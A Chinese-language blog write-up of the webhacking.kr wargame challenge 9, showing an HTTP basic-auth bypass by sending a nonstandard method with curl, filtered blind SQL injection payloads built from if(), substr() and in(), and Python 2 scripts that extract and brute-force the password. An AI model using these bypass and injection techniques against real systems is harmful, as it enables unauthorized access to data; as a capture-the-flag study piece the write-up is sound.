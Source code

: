 ```yaml
---
title: webhacking.kr challenge 9
author: rk700
layout: post
categories:
  - writeup
tags:
  - webhacking.kr
  - HTTP
  - sql
---
```


这道题花了好久啊才做出来……不愧是这么大分值的题目

首先，直接点击后就是遇到了HTTP basic auth。由于realm是sql injection world，我开始还以为在这里就要有注入……试了各种知道的payload发现没有用，于是在这里卡住了

然后是搜索时偶然发现[这里](http://cd34.com/blog/web-security/hackers-bypass-htaccess-security-by-using-gets-rather-than-get/)提到了他的basic auth被`GETS`方法绕过了，而实际上`GETS`并不是什么正确的方法，是因为配置时只检查了`GET`等常用方法，其他的也被解释成`GET`方法了，这点实在是太二了……所以只要我们使用其他方法就可以绕过这里，比如`OPTION`，就连

<pre>$ curl -b 'PHPSESSID=18r88ol7enbiqja7liuq623c43' 'http://webhacking.kr/challenge/web/web-09/index.php' -X WTF</pre>

这样都可以……

然后该页面有参数`no`，这里是有注入；还有有一个表格，提交参数`pw`，这里应该是得到的答案。具体地，`no`取1或2时，页面返回有Apple或Banana；当`no=3`时，会显示提示说长度是11，数据库的column是`id`和`no`。

对`no`参数尝试注入，发现一旦有危险字符就会返回denied，一个个试下来，很多都被过滤了。最后找到可用的payload是用if加substr，由于大于小于符号什么的也过滤了，所以用的是`in()`。基本格式如下：

<pre>select * from t1 where id=if(substr(name,1,1)in('D'),1,2);</pre>

在上面的语句中，`id=1`会被选中如果其对应的`name`首字符是`D`或者`d`，`id=2`会被选中如果其对应的`name`首字符不是`D`且不是`d`。这里大小写不区分，导致了后面的暴力破……对于这道题，我们需要每次只选中一行，而`no=0`是没有对应的行的，于是用

<pre>no=if(substr(id,1,1)in(0x41),1,0)</pre>

这样来确定`no=1`对应的`id`，得到是`APPLE`。用

<pre>no=if(substr(id,1,1)in(0x41),2,0)</pre>

这样来确定`no=2`对应的`id`，得到是`BANANA`。 最后用

<pre>no=if(substr(id,1,1)in(0x41),3,0)</pre>

这样来确定`no=3`对应的`id`，得到是`ALSRKSWHAQL`。用的代码如下

{% highlight python %}
#!/usr/bin/env python2

import httplib

def makePayload(statement):
    return "/challenge/web/web-09/index.php?no=if(substr(id,%d,1)in(%s),3,0)" % (statement[0], hex(statement[1]))

def checkResponse(response):
    return response.find("Secret") != -1

def doAssert(conn, statement):
    conn.request("WTF", makePayload(statement), "", header)
    response = conn.getresponse()
    content = response.read()

    return checkResponse(content)

if __name__ == "__main__":
    url = "webhacking.kr"
    header = {"cookie":"PHPSESSID=18r88ol7enbiqja7liuq623c43"}
    conn = httplib.HTTPConnection(url)
    result = []
    for idx in range(1,12):
        print "idx %d" % idx
        for code in range(33,127):
            if doAssert(conn, (idx, code)):
                print code
                result.append(chr(code))
                break
    print ''.join(result)
{% endhighlight %}

如上所说，由于没有区分大小写，这里并不能确定。由于总共是`2^11=2048`种情况，我想着并不多可以暴力一次，谁知道跑了好久好久……代码如下

{% highlight python %}
#!/usr/bin/env python2

import httplib
import itertools

if __name__ == "__main__":
    url = "webhacking.kr"
    header = {"cookie":"PHPSESSID=18r88ol7enbiqja7liuq623c43"}
    conn = httplib.HTTPConnection(url)

    for pw in map(''.join, itertools.product(*((c.upper(), c.lower()) for c in "ALSRKSWHAQL"))):
        conn.request("WTF", "/challenge/web/web-09/index.php?pw=%s" % pw, "", header)
        response = conn.getresponse()
        content = response.read()
        print content
{% endhighlight %}

结果跑到最后的一种情况是正确的，对应的是全小写……早知道先试下就好了
